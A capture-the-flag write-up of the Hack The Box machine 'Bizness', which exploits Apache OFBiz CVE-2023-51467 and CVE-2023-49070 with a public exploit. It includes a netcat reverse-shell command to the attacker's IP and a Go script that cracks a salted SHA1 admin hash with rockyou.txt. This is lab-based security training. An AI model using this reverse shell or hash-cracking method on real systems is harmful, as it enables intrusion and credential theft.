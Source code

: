 ```yaml
---
title:  Write-up Bizness
published: 2024-05-27
description: 'Writeup of "Bizness" from Hack The Box'
image: './icon.png'
tags: [Go, Apache OFBiz, Hash cracking, SHA1, HTB, Java Deserialization, ysoserial]
category: 'CTF writeup'
draft: false
---
```


# Overview
- Machine: **Bizness**
- OS: **Linux**
- Difficulty: **<span style="color:green">Easy</span>**
- Vulnerabilities: **Authentication Bypass** 

---
# User flag
## Reconnaissance

#### Port scan
To start, we need to identify all the ports that is running on the target machine. We can use the following Nmap command:</br>
``` bash
nmap -sV -sC 10.10.11.252 -p- -vv -oA nmap/port_scan

PORT     STATE    SERVICE  REASON      VERSION
22/tcp   open     ssh      syn-ack     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open     http     syn-ack     nginx 1.18.0
443/tcp  open     ssl/http syn-ack     nginx 1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
```
:::note
As we know about *bizness.htb* now we can put it on our _/etc/hosts_ file.
:::

Opening the website we got the folowing page:
![Bizness main page](./website.png)

#### Directory brute force
I immediately have ran _ffuf_ with the wordlist _common.txt_ from [seclist](https://github.com/danielmiessler/SecLists) to see if are any hidden directories on the page:</br>
```bash
ffuf -u https://bizness.htb/FUZZ -w seclists/Discovery/Web-Content/common.txt -fs 0
------------------------
control         [Status: 200, Size: 34633, Words: 10468]
index.html      [Status: 200, Size: 27200, Words: 92189]
```
And accessing the _'/control'_ page we get the following error message:
![Apache ofBiz error](./control.png)


## Exploitation
Knowing about **Apache OFBiz** I started looking for public exploit and CVEs and eventually I got on this github repo:
::github{repo='jakabakos/Apache-OFBiz-Authentication-Bypass'}
### How it works
The exploit takes advantage of two vulnerabilities of this apache OFZiz version: 

- **CVE-2023-51467**: Is a **Authentication Bypass** that consist in add `?USERNAME=&PASSWORD=&requirePasswordChange=Y.` in the end of the URL and the login fuction of Apache OFBiz will bug and think you are authenticated on the application. If you want more in details about it works check out [Sonic Wall blog post](https://blog.sonicwall.com/en-us/2023/12/sonicwall-discovers-critical-apache-ofbiz-zero-day-authbiz/) about it.

- **CVE-2023-49070**: Is a **Authenticated Java Deserialization** bug on the endpoint `/webtools/control/xmlrpc/`.

The exploit I found actually uses [ysoserial](https://github.com/frohoff/ysoserial) to generate the serialized data.Configuring the java enviroment to work properly can be complex, so I recommend running it mannually in a docker container. Luckily, the exploit worked in my environment and I got a **reverse shell** with the follow command: 
```bash
python3 exploit.py --url https://bizness.htb/ --cmd 'nc -e /bin/sh 10.10.14.27 443'
```
![User flag](./user.png)

:::note
After getting the reverse shell I run the classics commands to get stty working on zsh
shell: 
```bash
python3 -c 'import pty;pty.spawn("/bin/bash") 
<CTRL Z>
stty raw -echo;fg
<ENTER>
```
:::

# Privilege escalation

## Reconnaissance

Once I got the shell, I started enumerating the machine with the following commands:
```bash
ss -ltnp # Show the listening ports on the host
sudo -l # Check for sudo privileges (note: password require)
```

Next, I searched for passwords in Apache OFBiz configuration files but without success. Eventually, I found a file named _docker/docker-entrypoint.sh_ which contained the following code that generates a **SHA1 hash**:

```bash
load_admin_user() {
  if [ ! -f "$CONTAINER_ADMIN_LOADED" ]; then
    TMPFILE=$(mktemp)

    # Concatenate a random salt and the admin password.
    SALT=$(tr --delete --complement A-Za-z0-9 </dev/urandom | head --bytes=16)
    SALT_AND_PASSWORD="${SALT}${OFBIZ_ADMIN_PASSWORD}"

    # Take a SHA-1 hash of the combined salt and password and strip off any additional output form the sha1sum utility.
    SHA1SUM_ASCII_HEX=$(printf "$SALT_AND_PASSWORD" | sha1sum | cut --delimiter=' ' --fields=1 --zero-terminated | tr --delete '\000')

    # Convert the ASCII Hex representation of the hash to raw bytes by inserting escape sequences and running
    # through the printf command. Encode the result as URL base 64 and remove padding.
    SHA1SUM_ESCAPED_STRING=$(printf "$SHA1SUM_ASCII_HEX" | sed -e 's/\(..\)\.\?/\\x\1/g')
    SHA1SUM_BASE64=$(printf "$SHA1SUM_ESCAPED_STRING" | basenc --base64url --wrap=0 | tr --delete '=')

    # Concatenate the hash type, salt and hash as the encoded password value.
    ENCODED_PASSWORD_HASH="\$SHA\$${SALT}\$${SHA1SUM_BASE64}"

    # Populate the login data template
    sed "s/@userLoginId@/$OFBIZ_ADMIN_USER/g; s/currentPassword=\".*\"/currentPassword=\"$ENCODED_PASSWORD_HASH\"/g;" framework/resources/templates/AdminUserLoginData.xml >"$TMPFILE"

    # Load data from the populated template.
    /ofbiz/bin/ofbiz --load-data "file=$TMPFILE"

    rm "$TMPFILE"

    touch "$CONTAINER_ADMIN_LOADED"
  fi
}
```

:::note
The code essentially generates a **SALT**, concatenate it with the **PASSWORD**, hashes the result using `sha1sum`, and encode it again using base64 for URLs. Finally, it save the encoded password in the format: `$SHA${SALT}{SHA1}`.
:::

## Exploitation

After learning about the hash, I used this command `grep -r '$SHA` to see if the hash existed on the machine. The command returned some files inside the directory _/runtime/data/derby/ofbiz/seg0/_. Navigating to this directory, I found many _.dat_ files (probally database files), So I used `strings` and `grep` commands to extract the hash. 

![strings command](./strings.png)

## Cracking the hash

The easy option would by to manually decode the base64-encoded password and provide the SALT and HashType to John or Hashcat. However, to improving my Go skills, I coded the following script to crack the hash:

```go
package main

import (
	"bufio"
	"crypto/sha1"
	"encoding/base64"
	"encoding/hex"
	"fmt"
	"os"
	"strings"
)

const salt = "d"

const HASH = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"

func main() {

	//Read the wordlist file
	worlist_file := "/usr/share/wordlists/rockyou.txt"
	wordlist, _ := os.Open(worlist_file)
	scanner := bufio.NewScanner(wordlist)
    defer wordlist.Close()

	for scanner.Scan() {

        // Use sha1sum on the Salt and password
		hash := sha1.New()
		hash.Write([]byte(salt))
		hash.Write([]byte(scanner.Text()))
		sha1_pass := hash.Sum(nil)

        // Base64 encode it and remove the '=' charactes at the end. 
		found_hash := strings.TrimRight(base64.URLEncoding.EncodeToString(sha1_pass), "=")

        // Check if the Hash we got matches the hash we are searching for.
		if found_hash == HASH {
			fmt.Println("Found: ", scanner.Text())
            break
		}
	}

}

```
running the above code with `go run ./main.go` will eventually give us the right password as showing in the following screenshot:
![Password](./hash_crack.png)

:::warning
This code works but have some compabilities problems. For example, if the password contains the character '%', the `printf` function in bash (docker-entrypoint.sh) will interpret it, but your go script won't, so we will never found the password.
:::

With the cracked password, we can log in as root:</br>
`su root`

![Root](./root.png)

With root access, we can read the contest of `/root/root.txt` file and complete the CTF challenge.
